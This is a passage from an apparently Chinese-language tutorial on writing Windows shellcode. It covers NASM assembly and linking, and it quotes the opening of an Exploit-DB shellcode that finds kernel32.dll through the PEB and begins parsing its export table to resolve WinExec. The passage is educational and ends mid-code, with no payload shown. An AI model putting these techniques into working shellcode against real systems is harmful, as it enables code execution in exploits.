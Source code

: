 如果要采用VS自带的链接器，就使用win32格式: `nasm -f win32 win.asm`

![](../../../static/images/2022-02-16-17-27-48.png)

可以看到生成了win.obj，接下来使用链接器进行链接，选择不同的链接器生成的文件会有差异，经过测试w32nasm中提供的alink生成的PE文件和VS自带的Link有很大区别，而且PE的节表名称不能带`.` ，而Windows平台大部分PE文件的节表名称都是带.的，比较规范，因此这里就采用了VS自带的Link。

![](../../../static/images/2022-02-16-17-28-08.png)

![](../../../static/images/2022-02-16-17-28-17.png)

将win.exe拖入x32dbg进行调试查看：

![](../../../static/images/2022-02-16-17-28-30.png)

汇编生成的文件就是那么简洁....

## 0x03 Shellcode的通用编写思路

大部分通用的Shellcode编写思路都是从FS寄存器去寻找PEB，然后遍历PEB中的模块列表，从模块列表中寻找Kernel32.dll和ntdll.dll的基址，最终不断从模块中找到API的地址进行调用。

找一个Exploit-db上的[Shellcode](https://www.exploit-db.com/shellcodes/48116)举例：

```c
 mov ebp, esp            ; Set base stack pointer for new stack-frame
 sub esp, 0x20           ; Decrement the stack by 32 bytes

; Find kernel32.dll base address
 xor ebx, ebx            ; EBX = 0x00000000
 mov ebx, [fs:ebx+0x30]  ; EBX = Address_of_PEB
 mov ebx, [ebx+0xC]      ; EBX = Address_of_LDR
 mov ebx, [ebx+0x1C]     ; EBX = 1st entry in InitOrderModuleList / ntdll.dll
 mov ebx, [ebx]          ; EBX = 2nd entry in InitOrderModuleList / kernelbase.dll
 mov ebx, [ebx]          ; EBX = 3rd entry in InitOrderModuleList / kernel32.dll
 mov eax, [ebx+0x8]      ; EAX = &kernel32.dll / Address of kernel32.dll
 mov [ebp-0x4], eax      ; [EBP-0x04] = &kernel32.dll

; Find the address of the WinExec Symbol within kernel32.dll
; + The hex values will change with different versions of Windows

; Find the address of the Export Table within kernel32.dll
 mov ebx, [eax+0x3C]     ; EBX = Offset NewEXEHeader  = 0xF8
 add ebx, eax            ; EBX = &NewEXEHeader        = 0xF8 + &kernel32.dll
 mov ebx, [ebx+0x78]     ; EBX = RVA ExportTable      = 0x777B0 = [&NewExeHeader + 0x78]
```